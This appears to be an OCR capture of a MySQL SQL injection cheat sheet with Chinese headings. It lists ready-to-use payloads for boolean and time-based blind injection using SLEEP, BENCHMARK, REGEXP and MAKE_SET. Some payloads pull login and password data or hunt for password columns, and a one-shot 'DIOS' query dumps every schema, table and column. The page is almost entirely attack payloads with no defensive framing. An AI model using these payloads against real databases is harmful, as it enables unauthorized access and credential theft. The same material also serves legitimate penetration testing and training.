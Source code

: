   ###### REGEXP
	' OR (SELECT (CASE WHEN EXISTS(SELECT name FROM items WHERE name REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); -- -
	工作流程
	SELECT name,price FROM items WHERE name = '' OR (SELECT (CASE WHEN EXISTS(SELECT name FROM items WHERE name REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); -- -';

	条件语句
	返回正常
	2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
	Response:
	HTTP/1.1 500 Internal Server Error
	返回错误
	2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
	Response:
	HTTP/1.1 200 OK

  ###### MAKE_SET
	AND MAKE_SET(YOLO<(SELECT(length(version()))),1)
	AND MAKE_SET(YOLO<ascii(substring(version(),POS,1)),1)
	AND MAKE_SET(YOLO<(SELECT(length(concat(login,password)))),1)
	AND MAKE_SET(YOLO<ascii(substring(concat(login,password),POS,1)),1)

  ###### LIKE
  	SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
  ##### 基于时间注入
  	+BENCHMARK(40000000,SHA1(1337))+
	'%2Bbenchmark(3200,SHA1(1))%2B'
	AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))  //SHA1
	RLIKE SLEEP([SLEEPTIME])
	OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))

	SLEEP
	1 and (select sleep(10) from dual where database() like '%')#
	1 and (select sleep(10) from dual where database() like '___')# 
	1 and (select sleep(10) from dual where database() like '____')#
	1 and (select sleep(10) from dual where database() like '_____')#
	1 and (select sleep(10) from dual where database() like 'a____')#
	...
	1 and (select sleep(10) from dual where database() like 's____')#
	1 and (select sleep(10) from dual where database() like 'sa___')#
	...
	1 and (select sleep(10) from dual where database() like 'sw___')#
	1 and (select sleep(10) from dual where database() like 'swa__')#
	1 and (select sleep(10) from dual where database() like 'swb__')#
	1 and (select sleep(10) from dual where database() like 'swi__')#
	...
	1 and (select sleep(10) from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%')#

	条件语句
	?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
	?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1)))>=100, 1, SLEEP(3)) --
	?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
  ##### 一次性转储数据
  	MYSQL DIOS
	(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#
